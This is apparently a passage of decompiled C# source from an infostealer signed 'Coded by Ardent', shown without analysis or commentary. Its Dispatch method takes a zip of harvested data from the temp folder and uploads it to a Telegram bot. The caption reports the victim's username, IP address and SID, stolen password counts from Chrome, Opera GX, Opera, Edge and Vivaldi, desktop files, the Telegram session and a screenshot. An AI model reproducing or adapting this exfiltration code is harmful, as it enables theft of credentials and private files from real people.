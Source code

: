 ```csharp
		}

		// Token: 0x06000006 RID: 6 RVA: 0x00002340 File Offset: 0x00000540
		public static void Dispatch(string ID)
		{
			string text = Variables.temp + Variables.username + "@ardent.zip";
			bool flag = !File.Exists(text);
			if (!flag)
			{
				byte[] array = File.ReadAllBytes(text);
				string[] array2 = new string[5];
				array2[0] = "https://api.telegram.org/bot";
				array2[1] = Variables.Token;
				array2[2] = "/sendDocument?chat_id=";
				array2[3] = ID;
				int num = 4;
				string[] array3 = new string[37];
				array3[0] = "&caption=❗\ufe0f New LOG! <3\n\n\ud83d\udd3a PC: ";
				array3[1] = Variables.username;
				array3[2] = "\n\ud83d\udd3a IP: ";
				int num2 = 3;
				IPAddress ip = Variables.IP;
				array3[num2] = ((ip != null) ? ip.ToString() : null);
				array3[4] = "\n\ud83d\udd3a SID: ";
				array3[5] = Variables.SID;
				array3[6] = "\n\n\ud83d\udd3a All found passwords: ";
				array3[7] = Variables.allFoundPasswords.ToString();
				array3[8] = "\n\n\ud83d\udd3a    Found Chrome: ";
				array3[9] = Variables.isChromeFound;
				array3[10] = "\n\ud83d\udd3a        Found ChromePasswords: ";
				array3[11] = Variables.foundChromePasswords.ToString();
				array3[12] = "\n\n\ud83d\udd3a    Found OperaGX: ";
				array3[13] = Variables.isOperaGXFound;
				array3[14] = "\n\ud83d\udd3a        Found OperaGXPasswords: ";
				array3[15] = Variables.foundOperaGXPasswords.ToString();
				array3[16] = "\n\n\ud83d\udd3a    Found Opera: ";
				array3[17] = Variables.isOperaFound;
				array3[18] = "\n\ud83d\udd3a        Found OperaPasswords: ";
				array3[19] = Variables.foundOperaPasswords.ToString();
				array3[20] = "\n\n\ud83d\udd3a    Found Edge: ";
				array3[21] = Variables.isEdgeFound;
				array3[22] = "\n\ud83d\udd3a        Found EdgePasswords: ";
				array3[23] = Variables.foundEdgePasswords.ToString();
				array3[24] = "\n\n\ud83d\udd3a    Found Vivaldi: ";
				array3[25] = Variables.isVivaldiFound;
				array3[26] = "\n\ud83d\udd3a        Found VivaldiPasswords: ";
				array3[27] = Variables.foundVivaldiPasswords.ToString();
				array3[28] = "\n\n\ud83d\udd3a Additional information \n\ud83d\udd3a    Found files from desktop: ";
				array3[29] = Variables.foundFilesFromDesktop.ToString();
				array3[30] = "\n\ud83d\udd3a    Telegram session: ";
				array3[31] = Variables.telegramSessionFound;
				array3[32] = "\n\ud83d\udd3a    Is screenshot success: ";
				array3[33] = Variables.isScreenshotSuccess;
				array3[34] = "\n\ud83d\udd3a    Is zip compression success: ";
				array3[35] = Variables.isZipCompressionSuccess;
				array3[36] = "\n\n\ud83d\udcbb Coded by Ardent";
				array2[num] = string.Concat(array3);
				string text2 = string.Concat(array2);
				DataDispatch.UploadMultipart(array, text, "application/x-ms-dos-executable", text2);
			}
		}
```